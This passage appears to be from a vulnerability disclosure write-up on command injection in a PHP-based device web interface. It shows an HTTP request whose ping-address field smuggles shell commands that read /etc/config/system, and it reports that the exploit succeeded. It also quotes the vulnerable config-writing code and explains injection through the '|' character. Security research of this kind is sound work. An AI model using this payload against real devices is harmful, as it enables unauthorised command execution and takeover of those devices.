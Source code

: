 ```HTTP
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,or;q=0.7
Cookie: PHPSESSID=b0dfed1882f1fe6eb8955ffd4b9a00c4; uid=5IOJOB9A; PrivateKey=8F7E2C71E8AC7E3D5245B1CE1910671A
Connection: close

{"SetNetworkTomographySettings":{"tomography_ping_address":"http://example.com/'&/etc/config/system&echo'1","tomography_ping_number":"1","tomography_ping_size":"4","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

![image-20230406172745213](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202304061847898.png)

And the exploit was successfully.

![67b55a7128b4197e37ef72f6e934810](C:\Users\tyao\AppData\Local\Temp\WeChat Files\67b55a7128b4197e37ef72f6e934810.png)

### Additional information

The `system_time_timezone` parameter in `SetNTPServerSettings` interface allows us to input arbitrary words in corresponding config file.

```php
# control/SetNTPServerSettings.php 
class SetNTPServerSettings extends GetMultipleHNAPs
{
    function __construct($act_val)
    {
        parent::__construct($act_val);
    }

    public function actionIndex()
    {
        $option = $this->act_val;
        $system_info = read_cfg_info("system");
        $system_info = add_or_update_option_info($system_info, "system", "", "timezone", $option['system_time_timezone']); // input system_time_timezone parameter
        save_cfg_info("system", $system_info); // save file
        exec("/etc/init.d/system  restart");
        $result['SetNTPServerSettingsResult'] = "OK";
        $this->api_response(__CLASS__, $result);
    }
}
```

In this example, the `add_or_update_option_info()` function revises the old config file with the polluted `$value` parameter, and we can inject any malicious code via  `|` character.

```php
# core/fun/public.php
function add_or_update_option_info($cfg_str, $section_type, $section_name, $option_name, $value)
{
    if (empty($cfg_str)) {
        return $cfg_str;
    }
    if (empty($section_name)) {
        $section_begin = strpos($cfg_str, "config" . " " . $section_type);
    } else {
        //增加单引号处理
        $section_name = "'" . $section_name . "'\n";
        $section_begin = strpos($cfg_str, "config" . " " . $section_type . " " . $section_name);
    }

    $section_end = strpos($cfg_str, "\nconfig ", $section_begin);
    if (false === $section_end) {
        $section_str = substr($cfg_str, $section_begin);
```